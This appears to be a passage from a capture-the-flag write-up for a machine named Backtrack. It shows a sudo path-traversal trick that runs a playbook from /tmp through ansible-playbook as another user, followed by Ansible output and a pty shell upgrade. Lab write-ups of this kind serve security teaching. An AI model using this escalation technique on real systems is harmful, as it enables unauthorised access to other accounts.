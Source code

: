 ```bash
tomcat@Backtrack:/tmp$ chmod 777 shell.yml
```

```bash
tomcat@Backtrack:/tmp$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../../../tmp/shell.yml
```

```bash
tomcat@Backtrack:/tmp$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../../../tmp/shell.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/connection/httpapi.py) as it seems to be invalid:
module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/connection/vmware_tools.py) as it seems to be invalid:
module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/connection/winrm.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/foreman.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/grafana_annotations.py) as it seems to be
invalid: module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/hipchat.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/nrdp.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/slack.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/splunk.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/sumologic.py) as it seems to be invalid:
module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'

PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [shell] *******************************************************************
```

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
wilbur@Backtrack:/tmp$ export TERM=xterm
```

